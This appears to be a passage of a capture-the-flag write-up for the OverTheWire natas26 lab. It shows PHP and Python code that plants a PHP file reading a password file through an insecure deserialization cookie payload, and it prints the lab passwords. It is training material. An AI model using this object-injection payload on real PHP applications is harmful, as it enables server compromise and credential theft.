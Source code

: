 ```php
    }
}
$logger = new Logger("");
$arr = array();
$arr[] = $logger;
echo base64_encode(serialize($arr));
```

```python
import requests
from requests.auth import HTTPBasicAuth

username = "natas26"
password = "8A506rfIAXbKKk68yJeuTuRq4UfcK70k"
authentication = HTTPBasicAuth(username, password)

def mal_cookie():
    mal_serialized = """YToxOntpOjA7Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czozNDoiL3Zhci93d3cvbmF0YXMvbmF0YXMyNi9pbWcvc3NzLnBocCI7czoxNToiAExvZ2dlcgBpbml0TXNnIjtzOjIyOiIjLS1zZXNzaW9uIHN0YXJ0ZWQtLSMKIjtzOjE1OiIATG9nZ2VyAGV4aXRNc2ciO3M6NjI6Ijw/cGhwIGVjaG8gZmlsZV9nZXRfY29udGVudHMoIi9ldGMvbmF0YXNfd2VicGFzcy9uYXRhczI3Iik7ID8+Ijt9fQ=="""
    mal_cookie = {
        "drawing" : mal_serialized,
    }
    return mal_cookie

def main():
    url = "http://natas26.natas.labs.overthewire.org/"
    response = requests.get(url, auth=authentication, cookies=mal_cookie())

main()
```
Accessing http://natas26.natas.labs.overthewire.org/img/sss.php will get PSO8xysPi00WKIiZZ6s6PtRmFy9cbxj3

---
## Hint

---
## Solving
### Noting
- Do not use python to generate the serialized data. It only offers pain and error. 
- Use absolute path will give you higher chance to pwn.
### Category
- 
### Techniques
- 
### Reference
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/PHP.md
- 
### Tools
- 